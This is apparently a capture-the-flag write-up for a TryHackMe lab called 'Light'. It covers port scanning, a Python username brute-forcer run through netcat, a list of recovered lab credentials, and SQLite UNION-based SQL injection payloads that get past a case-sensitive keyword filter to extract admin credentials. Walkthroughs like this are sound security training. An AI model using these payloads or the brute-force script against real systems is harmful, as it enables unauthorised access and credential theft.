









*Room description -*

Welcome to the Light database application!

I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc 10.10.117.102 1337` 

You can use the username `smokey` in order to get started!

*Kudos to the room creators - hadrian3689, tryhackme*

*Writeup written by T3chyy*
# Enumeration

We begin with an Nmap scan, now this probably wasn't needed since we're already provided with port `1337` to begin testing with, however it's always important to check for anything else on the box so we don't miss anything:

```
$ nmap -T5 -sC -sV -p- 10.10.116.179
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-20 15:43 PST
Warning: 10.10.116.179 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.116.179
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 61:c5:06:f2:4a:20:5b:cd:09:4d:72:b0:a5:aa:ce:71 (RSA)
|   256 51:e0:5f:fa:81:64:d3:d9:26:24:16:ca:45:94:c2:00 (ECDSA)
|_  256 77:e1:36:3b:95:9d:e0:3e:0a:56:82:b2:9d:4c:fe:1a (ED25519)
1337/tcp open  waste?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|     Welcome to the Light database!
|     Please enter your username:
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest:
|     Welcome to the Light database!
|     Please enter your username: Username not found.
|_    Please enter your username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service : blob of disgusting crap no one wants to see
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 544.34 seconds
```

Besides the initial 1337 port we were given, we only have an SSH server open, which I'll keep in note in case we find any credentials down the line. (**Spoiler Alert: We don't**)

However we can access the 1337 port using netcat. It looks to be some sort of database application. When we put the username we were provided with in the description of the room it gives us a password:



At first, I took this password and the username `smokey` and attempted to log into SSH with them, unfortunately, these credentials didn't serve any use so I decided to move on.

I assumed there were more accounts so I asked Grok to generate a simple Python script that brute-forces usernames in a wordlist.

```python
import subprocess
import time

# Wordlist with potential usernames
USERNAME_FILE = "/usr/share/seclists/Usernames/Names/names.txt"
# IP address and port of the service
TARGET_IP = "10.10.116.179"
TARGET_PORT = "1337"

INITIAL_PROMPT = "Welcome to the Light database!"

def load_usernames(filename):
    with open(filename, 'r') as file:
        return [line.strip() for line in file if line.strip()]

def bruteforce_usernames(usernames):
    for username in usernames:
        try:
            # Using netcat to connect to the service
            nc = subprocess.Popen(['nc', TARGET_IP, TARGET_PORT], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
            response = nc.stdout.readline().strip()

            if response != INITIAL_PROMPT:
               print(f"Unexpected server response: {response}")
               return None

            # Send the username followed by a newline
            nc.stdin.write(f"{username}\n")
            nc.stdin.flush()

            # Wait for a response (you might need to adjust this based on the service's response time)
            time.sleep(0.5)

            # Read the response
            response = nc.stdout.readline()

            print(f"Testing username: {username}")
            print(f"Response: {response.strip()}")

            # Here you would define what a successful response looks like
            if "successful" in response or "valid" in response:  # Example conditions
                print(f"Valid username found: {username}")
                return username  # Exit if a valid username is found or continue if you want to find all valid usernames

        except Exception as e:
            print(f"Error testing username {username}: {e}")

        finally:
            # Ensure we close the netcat connection
            if nc:
                nc.terminate()
                nc.wait()

    return None

if __name__ == "__main__":
    usernames = load_usernames(USERNAME_FILE)
    valid_username = bruteforce_usernames(usernames)
    if not valid_username:
        print("No valid usernames found.")
```

Using this script allowed me to find 6 other usernames and the passwords associated with them.
However, these credentials don't serve any purpose and do not work when attempted against SSH.

```
smokey:vYQ5ngPpw8AdUmL
michael:7DV4dwA0g5FacRe
john:e74tqwRh2oApPo6
steve:WObjufHX1foR8d7
ralph:YO1U9O1m52aJImA
rob:yAn4fPaF2qpCKpR
alice:tF8tj2o94WE4LKC
```
# Exploitation

I had to find other options in order to find the correct path. I was stuck at this point for a while so I resorted to just spamming random special characters, mostly out of frustration and hoping something will happen. 

Well, turns out my character mashing was worth it because when I put an `'` it printed out an error:



This error looked incredibly similar to that of a SQL query, and considering that it's a database application I decided to start googling SQL injection payloads and cheat sheets

I started off with MySQL payloads, beginning with things like `SELECT * FROM information_schema.tables` but it didn't seem to like the SELECT statement being used



Same thing occurred when using UNION. There seems to be a filter in place preventing certain SQL commands from being used.

When testing another payload, I discover that there's another filter in place, preventing any comments from being used in the query.



One of the first things I checked is whether or not the filter for SELECT & UNION statements were case sensitive, it didn't seem to work with it being all lowercase, however putting at least one capital letter in the statement (or vice versa) seems to bypass the filter.



After about an hour of playing around with MySQL payloads with no success, I had to rethink about what kind of SQL that the box could be using. I then remembered the name of the room:

Light, potentially could mean SQ**Lite**?

So I began searching for payloads that would work for SQLite, and after playing around with the payloads a bit, I finally managed to begin cooking!
### Extracting the table name:
`smokey'Union Select tbl_name FROM sqlite_master WHERE type='table`

### Extracting the columns from admintable:
`smokey'Union Select sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='admintable`

Columns in admintable are "username" and "password"
### Extracting username & password from admintable

Extract username - `smokey'Union Select username FROM 'admintable`

Extract password - `smokey'Union Select password FROM 'admintable`



These 2 payloads should help solve the 1st and 3rd question.

### Extracting the password of the admin user

`smokey'Union Select password FROM 'admintable' WHERE username == 'INSERT_ADMIN_USER`



This final payload should answer the 2nd question, and thus, you've completed the box! Congrats!

## Conclusion

That was a pretty cool box, I took a small break from CTFs after a while and it gave me a really good refresher on some concepts, especially with SQL injection. The room was quite challenging in terms of getting the correct payload, but once I remembered the name of the room I started cooking from there.